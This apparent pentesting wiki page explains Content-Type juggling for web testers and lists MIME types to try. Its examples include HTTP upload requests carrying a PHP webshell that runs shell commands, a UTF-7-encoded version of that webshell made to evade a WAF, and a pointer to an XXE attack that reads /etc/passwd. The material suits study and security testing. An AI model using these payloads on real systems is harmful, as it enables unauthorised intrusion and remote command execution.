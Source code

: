 # Content-Type juggling

## Theory

**Content-Type juggling** exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../../web/inputs/file-inclusion/lfi-to-rce/file-upload.md) or [xxe-injection](content-type-juggling.md#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](content-type-juggling.md#examples)).

{% hint style="info" %}
The `Content-Type` header is used to indicate the MIME type of the resource.

* In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
* In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.
{% endhint %}

{% hint style="warning" %}
If the [XCTO (X-Content-Type-Options)](../../web/config/http-headers/#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.
{% endhint %}

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header **not** present ?
* Can the `Content-Type` header  be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`,  [XXE](xxe-injection.md) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

**One should not stick to this list and always try several Content-Type values.**

<details>

<summary>List of the most common Content-Type values</summary>

{% code title="Type application" %}
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```
{% endcode %}

{% code title="Type audio" %}
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
{% endcode %}

{% code title="Type image" %}
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```
{% endcode %}

{% code title="Type multipart" %}
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```
{% endcode %}

{% code title="Type text" %}
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```
{% endcode %}

{% code title="Type video" %}
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```
{% endcode %}

{% code title="Type vnd" %}
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```
{% endcode %}

</details>

### Examples

<details>

<summary>PHP payload upload and RCE</summary>

Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

</details>

<details>

<summary>Bypass a WAF</summary>

Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](content-type-juggling.md#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "**charset juggling**" can be performed.

Getting caught by a WAF:

{% code title="Getting caught by the WAF" %}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```
{% endcode %}

{% code title="Bypassing the WAF" %}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```
{% endcode %}

</details>

<details>

<summary>API attack, leading to XXE</summary>

In the following request, the application normally sends JSON content (`Content-Type: application/json`).&#x20;

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.&#x20;

<img src="../../.gitbook/assets/CT-JUGGLING-3.png" alt="Performing Content-Type juggling" data-size="original">

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](xxe-injection.md)).

<img src="../../.gitbook/assets/CT-JUGGLING-4.png" alt="Crafting a XXE payload to extract /etc/passwd" data-size="original">

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).

</details>

### Resources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee" %}
Content-Type from JSON to XEE
{% endembed %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses" %}
WAF and protections bypasses
{% endembed %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}
